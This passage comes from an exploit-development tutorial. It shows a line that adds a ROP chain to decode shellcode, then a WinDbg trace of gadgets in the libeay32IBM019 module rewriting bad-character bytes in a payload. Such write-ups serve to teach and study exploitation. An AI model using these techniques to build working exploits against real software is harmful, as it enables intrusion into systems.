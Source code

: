 We can just add the rop chain like this by calling the "decodeShellcode" method at runtime:
```
rop += decodeShellcode(dllBaseAddress, badIndexArray, shellcode)
```

If we apply the decoding operation via ROP gadgets to the shellcode and put a breakpoint before the first ROP gadget, we can see that we are aligning EAX with the beginning of the shellcode (minus one byte, to account for the offset in the write gadget) and patching the bytes: 
```c
0:079> bp libeay32IBM019+0x4a7b6
0:079> g
Breakpoint 0 hit
eax=0d55e2f0 ebx=05d03380 ecx=fffff9e5 edx=77992da0 esi=42424242 edi=00669360
eip=02fea7b6 esp=0d55e39c ebp=41414141 iopl=0         nv up ei pl nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
libeay32IBM019!N98E_BIO_f_cipher+0x386:
02fea7b6 2bc1            sub     eax,ecx
0:081> p
eax=0d55e90b ebx=05d03380 ecx=fffff9e5 edx=77992da0 esi=42424242 edi=00669360
eip=02fea7b8 esp=0d55e39c ebp=41414141 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
libeay32IBM019!N98E_BIO_f_cipher+0x388:
02fea7b8 5b              pop     ebx
0:081> db eax L10
0d55e90b  43 fc e8 8f ff ff ff 60-31 d2 89 e5 64 8b 52 30  C......`1...d.R0
0:081> g
Breakpoint 0 hit
eax=0d55e90b ebx=42424242 ecx=fffffffd edx=77992da0 esi=42424242 edi=00669360
eip=02fea7b6 esp=0d55e3ac ebp=41414141 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
libeay32IBM019!N98E_BIO_f_cipher+0x386:
02fea7b6 2bc1            sub     eax,ecx
0:081> p
eax=0d55e90e ebx=42424242 ecx=fffffffd edx=77992da0 esi=42424242 edi=00669360
eip=02fea7b8 esp=0d55e3ac ebp=41414141 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
libeay32IBM019!N98E_BIO_f_cipher+0x388:
02fea7b8 5b              pop     ebx
0:081> db eax L10
0d55e90e  8f ff ff ff 60 31 d2 89-e5 64 8b 52 30 8b 52 08  ....`1...d.R0.R.
0:081> p
eax=0d55e90e ebx=11110111 ecx=fffffffd edx=77992da0 esi=42424242 edi=00669360
eip=02fea7b9 esp=0d55e3b0 ebp=41414141 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
libeay32IBM019!N98E_BIO_f_cipher+0x389:
02fea7b9 c3              ret
0:081> p
eax=0d55e90e ebx=11110111 ecx=fffffffd edx=77992da0 esi=42424242 edi=00669360
eip=02fe68ee esp=0d55e3b4 ebp=41414141 iopl=0         nv up ei pl nz ac po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000213
libeay32IBM019!N98E_EVP_CIPHER_CTX_set_padding+0x1e:
02fe68ee 00b801000000    add     byte ptr [eax+1],bh        ds:0023:0d55e90f=ff
0:081> p
eax=0d55e90e ebx=11110111 ecx=fffffffd edx=77992da0 esi=42424242 edi=00669360
eip=02fe68f4 esp=0d55e3b4 ebp=41414141 iopl=0         nv up ei pl zr ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000257
libeay32IBM019!N98E_EVP_CIPHER_CTX_set_padding+0x24:
02fe68f4 c3              ret
0:081> db eax L10
0d55e90e  8f 00 ff ff 60 31 d2 89-e5 64 8b 52 30 8b 52 08  ....`1...d.R0.R.
```

In the previous section we see how the "ff" badchar byte gets dinamically replaced for "00". This process is done iteratively, until all the badchars are fixed.

